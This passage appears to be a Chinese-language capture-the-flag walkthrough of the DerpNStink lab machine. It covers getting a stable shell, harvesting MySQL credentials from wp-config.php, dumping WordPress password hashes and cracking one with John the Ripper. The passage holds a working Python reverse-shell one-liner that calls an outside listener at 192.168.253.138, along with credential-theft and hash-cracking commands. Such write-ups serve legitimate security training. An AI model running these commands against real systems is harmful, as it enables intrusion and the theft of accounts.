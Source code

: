 9、内网信息收集

拿个稳定的shell：
--------
nc -vlp 6677
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.253.138",6677));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

python -c 'import pty; pty.spawn("/bin/bash")'

ctrl+z
stty raw -echo
fg
---------

cd ../../..    ---来到/var/www/html/weblog目录枚举信息！

grep "root" -rn wp-config.php
/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'mysql');

mysql账号密码获得：
root
mysql


10、登录mysql信息枚举

1）后台枚举
前面dirb扫描出：
http://derpnstink.local/php/phpmyadmin/


2）命令枚举

show databases;
show tables;
select * from wp_users;

admin
$P$BgnU3VLAv.RWd3rdrkfVIuQr6mFvpd/

unclestinky
$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41

echo '$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41' > 2.txt

这时候可以用hash-identifier值去查看是什么类型的密码加密！

john 2.txt --wordlist=/usr/share/wordlists/rockyou.txt
等待几分钟后成功破解~

使用暴破出的用户名/密码：unclestinky/wedgie57进行登录！

11、后台枚举信息
